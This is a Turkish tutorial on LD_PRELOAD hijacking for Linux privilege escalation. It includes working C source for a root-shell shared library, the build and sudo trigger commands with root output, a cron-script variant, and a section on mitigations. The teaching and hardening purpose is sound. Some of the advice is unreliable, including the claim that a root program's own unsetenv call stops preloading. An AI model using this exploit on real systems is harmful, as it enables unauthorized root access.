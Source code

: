 # Linux'ta Ayrıcalık Yükseltme: LD_PRELOAD Hijacking Kapsamlı Rehberi

Bu döküman, Linux sistemlerinde sıkça karşılaşılan bir ayrıcalık yükseltme (Privilege Escalation) tekniği olan `LD_PRELOAD Hijacking` yönteminin mantığını, sömürü adımlarını, farklı senaryolarını ve en önemlisi korunma yollarını detaylı bir şekilde açıklamaktadır.

## 1. Temel Mantık: LD_PRELOAD Nedir ve "Hijacking" Nasıl Çalışır?

### LD_PRELOAD Nedir?

`LD_PRELOAD`, bir Linux programı çalıştırılmadan önce hangi **paylaşımlı kütüphanelerin (.so dosyaları)** belleğe yükleneceğini belirten bir ortam değişkenidir (environment variable).

Normalde bir program (`örneğin /bin/ls`), çalışmak için ihtiyaç duyduğu standart kütüphaneleri (örneğin matematik fonksiyonları için `libm.so` veya temel C fonksiyonları için `libc.so`) sistemin standart yollarından (`/lib`, `/usr/lib` vb.) yükler. Bu işlemi işletim sisteminin **dinamik bağlayıcısı** (`ld.so` veya `ld-linux.so`) yönetir.

`LD_PRELOAD` ise bu standart akışa müdahale eder. Eğer bu değişken ayarlanmışsa, dinamik bağlayıcı, programın kendi ihtiyaç duyduğu kütüphanelerden **önce**, `LD_PRELOAD` içinde belirtilen kütüphaneyi yükler.

### "Hijacking" (Ele Geçirme) Nasıl Olur?

Saldırının temel mantığı, hedef programın güvenerek çağırdığı standart bir fonksiyonu, kendi yazdığımız kötü amaçlı bir fonksiyonla "ezmektir".

1.  **Kötü Amaçlı Kütüphane Oluşturulur:** Saldırgan, standart bir kütüphane fonksiyonuyla (örneğin `printf`, `strcmp`, `geteuid` vb.) **aynı isme ve aynı parametrelere sahip** bir fonksiyon içeren kendi paylaşımlı kütüphanesini (`.so` dosyası) yazar. Bu fonksiyonun içine ise asıl amacını gerçekleştirecek kodu (örneğin bir `root` shell başlatan `system("/bin/bash")` komutu) yerleştirir.

2.  **Araya Girme:** Saldırgan, `LD_PRELOAD` değişkenini kendi kütüphanesinin yolunu gösterecek şekilde ayarlar.

3.  **Tetikleme:** Yüksek yetkili bir program çalıştırıldığında:
    *   Dinamik bağlayıcı, `LD_PRELOAD` nedeniyle ilk olarak bizim kötü amaçlı kütüphanemizi yükler.
    *   Program, standart bir fonksiyonu çağırdığında (örneğin `geteuid()`), dinamik bağlayıcı bu fonksiyonu ilk olarak bizim kütüphanemizde arar.
    *   Fonksiyonu bizim kütüphanemizde bulduğu için standart olan yerine bizim yazdığımız kötü amaçlı kodu çalıştırır.

Böylece programın akışını ele geçirmiş ve kendi kodumuzu çalıştırmış oluruz.

## 2. Ayrıcalık Yükseltme (Privilege Escalation) Nasıl Gerçekleşir?

Bu tekniğin bir ayrıcalık yükseltme aracına dönüşmesi için iki temel bileşene ihtiyaç vardır:

1.  **Yüksek Yetkili Bir Süreç:** `root` gibi yüksek bir yetkiyle çalışan bir program hedef alınmalıdır. Bu genellikle iki şekilde karşımıza çıkar:
    *   **SUID Biti Ayarlı Programlar:** Dosya sahibi `root` olan ve SUID biti ayarlanmış programlar, kim çalıştırırsa çalıştırsın `root` yetkileriyle çalışır.
    *   **`sudo` ile Çalıştırılan Programlar:** Bir kullanıcının `sudo` ile belirli bir komutu `root` olarak çalıştırmasına izin verilmesi.

2.  **Ortam Değişkeninin Korunması:** `LD_PRELOAD` değişkenimizin, normal kullanıcıdan `root` olarak başlayacak olan sürece aktarılması gerekir.
    *   **Varsayılan Durum (Güvenli):** Modern Linux sistemleri, güvenlik nedeniyle SUID'li bir program çalıştırıldığında `LD_PRELOAD` gibi tehlikeli ortam değişkenlerini otomatik olarak **temizler/yok sayar.**
    *   **Zafiyetli Durum (Tehlikeli):** Ancak `sudo`, `/etc/sudoers` dosyasındaki hatalı bir yapılandırma nedeniyle bu değişkenin korunmasına izin verebilir. **Zafiyetin anahtarı genellikle burasıdır.**

## 3. Uygulamalı Senaryo Analizi ve Sömürü (Exploitation)

### Senaryo 1: `sudo` ve `env_keep` Zafiyeti (En Yaygın Senaryo)

Bu, makalede daha önce bahsi geçen ve en sık karşılaşılan senaryodur.

**Durum Tespiti:**
Hedef makinede `sudo -l` komutunu çalıştırarak `sudo` yetkilerimizi kontrol ederiz.

```bash
user@ubuntu:/tmp$ sudo -l
Matching Defaults entries for user on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User user may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/find
```

**Analiz:**
*   `(ALL) NOPASSWD: /usr/bin/find`: `user` kullanıcısı, `/usr/bin/find` komutunu parola girmeden `root` olarak çalıştırabilir.
*   `env_keep+=LD_PRELOAD`: **KRİTİK ZAFİYET!** Bu ayar, `sudo`'nun `LD_PRELOAD` değişkenini temizlememesini, aksine `root` olarak çalışacak sürece aktarmasını söyler.

**Adım Adım Sömürü:**

1.  **Kötü Amaçlı Kütüphaneyi Hazırlama (`exploit.c`)**
    `/tmp` dizininde `exploit.c` adında bir dosya oluşturun:
    ```c
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>

    // Bu __attribute__((constructor)) sayesinde kütüphane yüklendiği anda
    // bu fonksiyon otomatik olarak çalıştırılır.
    void _init() {
        // Güvenlik ve temizlik için ortam değişkenini sıfırlayalım.
        unsetenv("LD_PRELOAD");
        
        // Yetkimizi root (ID=0) olarak ayarlayalım.
        setgid(0);
        setuid(0);
        
        // Root yetkilerinde bir shell başlatalım.
        // -p parametresi, yetkilerin korunmasını sağlar.
        system("/bin/bash -p");
    }
    ```

2.  **Kütüphaneyi Derleme**
    Bu C kodunu paylaşımlı bir kütüphane (`.so`) olarak derleyin:
    ```bash
    gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
    ```

3.  **Zafiyeti Tetikleme**
    Şimdi, `sudo` ile `find` komutunu çalıştırırken `LD_PRELOAD` ile kendi kütüphanemizi belirtelim:
    ```bash
    sudo LD_PRELOAD=/tmp/exploit.so /usr/bin/find
    ```

4.  **Sonuç**
    Bu komut `find` programını çalıştırmak yerine, doğrudan size bir `root` shell'i verecektir.
    ```bash
    # whoami
    root
    # id
    uid=0(root) gid=0(root) groups=0(root)
    ```

### Senaryo 2: Yanlış İzinlere Sahip Cron Job veya Servisler

Bazı durumlarda `root` olarak çalışan bir `cron job` veya `systemd` servisi, güvenli olmayan bir şekilde başka bir komutu çağırabilir.

**Örnek Senaryo:**
`root` kullanıcısının `cron` tablosunda her dakika çalışan bir script olsun: `/opt/scripts/backup.sh`.

`backup.sh` içeriği:
```bash
#!/bin/bash
# Bu script /home/user/data dizinindeki verileri yedekler.
cd /home/user/data
/usr/bin/tar -czf /var/backups/backup.tar.gz .
```

*   **Zafiyet:** `backup.sh` scripti `tar` komutunu çalıştırıyor. Eğer saldırgan, bu scriptin çalıştığı ortamı (environment) bir şekilde manipüle edebiliyorsa `LD_PRELOAD` enjekte edebilir. Bu genellikle scriptin kendisinin veya çağırdığı bir dosyanın normal kullanıcı tarafından düzenlenebilmesiyle mümkün olur.

**Sömürü:**
Eğer `backup.sh` scripti üzerinde yazma iznimiz varsa, scripti şöyle değiştirebiliriz:
```bash
#!/bin/bash
# Kötü amaçlı kod eklendi
export LD_PRELOAD=/tmp/exploit.so
/usr/bin/tar -czf /var/backups/backup.tar.gz .
```
Bir sonraki `cron` çalışmasında, `tar` komutu çalışmadan önce bizim `exploit.so` kütüphanemiz `root` yetkileriyle yüklenecek ve bize bir `root` shell'i (veya reverse shell) verecektir.

## 4. Korunma Yöntemleri (Mitigation)

Bu güçlü saldırı tekniğinden korunmak için sistem sıkılaştırması (hardening) kritik öneme sahiptir.

1.  **`sudo` Yapılandırmasını Güçlendirmek (En Önemli Adım)**
    Her zaman `visudo` komutunu kullanarak `/etc/sudoers` dosyasını düzenleyin.
    *   **`env_reset` Kullanın:** `Defaults env_reset` satırının aktif olduğundan emin olun. Bu, `sudo`'nun çoğu ortam değişkenini sıfırlamasını sağlar.
    *   **`env_keep`'i Kontrol Edin:** `Defaults env_keep` listesinden `LD_PRELOAD`, `LD_LIBRARY_PATH` gibi tehlikeli değişkenleri **kaldırın**. Güvenli bir yapılandırmada bu değişkenler bulunmamalıdır.
    *   **`secure_path` Kullanın:** `Defaults secure_path` direktifinin tanımlı olması, saldırganın `PATH` manipülasyonu yapmasını engeller.

2.  **En Az Yetki Prensibi (Principle of Least Privilege)**
    Kullanıcılara `(ALL) ALL` gibi genel yetkiler vermek yerine, sadece işleri için gerekli olan spesifik komutları (`/usr/bin/systemctl restart apache2` gibi) çalıştırma izni verin.

3.  **Dosya Sistemi Sıkılaştırması**
    Saldırganın kötü amaçlı kütüphanesini yükleyebileceği `/tmp` gibi genel yazma alanlarını güvenli hale getirin. `/etc/fstab` dosyasını düzenleyerek bu dizinleri `noexec` seçeneği ile bağlayın.
    ```
    # /etc/fstab örneği
    tmpfs /tmp tmpfs defaults,rw,nosuid,nodev,noexec,relatime 0 0
    ```
    `noexec` seçeneği, o dizin içindeki dosyaların çalıştırılabilir kod olarak (kütüphaneler dahil) yüklenmesini engeller.

4.  **Güvenli Kodlama ve Scripting**
    `root` olarak çalışan scriptler veya programlar yazıyorsanız, programın başında `unsetenv("LD_PRELOAD")` gibi komutlarla tehlikeli ortam değişkenlerini manuel olarak temizleyin.

5.  **Düzenli Sistem Denetimi**
    Sisteminizdeki SUID/SGID dosyalarını, `sudo` kurallarını ve `cron` görevlerini düzenli olarak gözden geçirin. `linpeas.sh` gibi otomatik araçlar bu tür yanlış yapılandırmaları bulmanıza yardımcı olabilir.
